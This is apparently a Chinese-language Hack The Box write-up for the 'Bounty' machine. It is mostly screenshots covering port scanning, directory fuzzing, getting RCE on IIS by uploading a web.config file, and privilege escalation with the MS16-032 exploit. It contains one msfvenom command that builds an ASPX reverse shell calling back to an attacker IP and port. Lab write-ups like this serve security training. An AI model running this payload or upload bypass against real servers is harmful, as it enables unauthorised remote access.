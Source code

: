 +++
ShowToc = true
TocOpen = true
title = '0X006 Bounty'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE50b73d52938f8dd92624582f43421360image.png)

![](/htb_img/WEBRESOURCE158a53ed50b04b02fe88333a25910e95image.png)

# 获取立足点

目录扫描要仔细，gobuster最开始没扫出来，添加aspx后缀后扫出了：

![](/htb_img/WEBRESOURCEd074fad91d7ae895e3d24de42037f0c3image.png)

还有一个：

![](/htb_img/WEBRESOURCE290bef7cba7d9b437c8cef6f1fa1ed8aimage.png)

先上传一个试试：

![](/htb_img/WEBRESOURCEffd0b44cc682f4923731a293cd93e360image.png)

![](/htb_img/WEBRESOURCE14cb2d762c34f76a20036fa7fc577504image.png)

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 lPORT=8888 -f aspx -o cxk.aspx

![](/htb_img/WEBRESOURCEff697c6b8d0b448688cc2c2d7b448c5eimage.png)

看样子是后端校验：

![](/htb_img/WEBRESOURCE428c4be128599fd2c3cc19b820edbd6aimage.png)

这里是没想到的，我一直以为是常见的IIS解析漏洞，但是发现不行，后面看了一下官方文档，这里要FUZZ一下后缀，看看能上传哪些后缀：

![](/htb_img/WEBRESOURCE0ed7b3810f71f2d3a927add6bab5a3bbimage.png)

/SecLists-2023.2/Fuzzing/extensions-skipfish.fuzz.txt

发现congfig是可以使用的：

![](/htb_img/WEBRESOURCE381217727c5fde95497933ca69fb993aimage.png)

这个后缀在IIS7.0以上是可以getshell的：

[https://003random.com/posts/archived/2018/05/22/rce-by-uploading-a-web-config/](https://003random.com/posts/archived/2018/05/22/rce-by-uploading-a-web-config/)

同时可以在github找到相关项目：

https://github.com/0xPurpl3john/web.config

![](/htb_img/WEBRESOURCEdaecd0d5ed32bb9f118511101dcba521image.png)

![](/htb_img/WEBRESOURCEcc32ac0e88720bca4d2ecdddfd9ff008image.png)

![](/htb_img/WEBRESOURCE833669069ef148827677d372d1a1ae09image.png)

# 提权

![](/htb_img/WEBRESOURCEdb6c7fb99adecbc38aae0f5bc2df1bfdimage.png)

也是没有补丁的：

![](/htb_img/WEBRESOURCE39f51e9e0b66cda8726eba501f80d082image.png)

[https://github.com/zcgonvh/MS16-032/releases/tag/Release](https://github.com/zcgonvh/MS16-032/releases/tag/Release)

运行之前需要重新弹个shell:

![](/htb_img/WEBRESOURCE13637ed094fc8cff71e82ec81c435a3aimage.png)

![](/htb_img/WEBRESOURCE2a99ab8a07082ec27e2d6e7dddca9cc5image.png)

![](/htb_img/WEBRESOURCEe66629d806b17a054946a7d51858ecd3image.png)

![](/htb_img/WEBRESOURCEe1072ee6aeb1fa4934813b4752dee048image.png)

![](/htb_img/WEBRESOURCE64af2bfec5388fe2617f3e5daaad784fimage.png)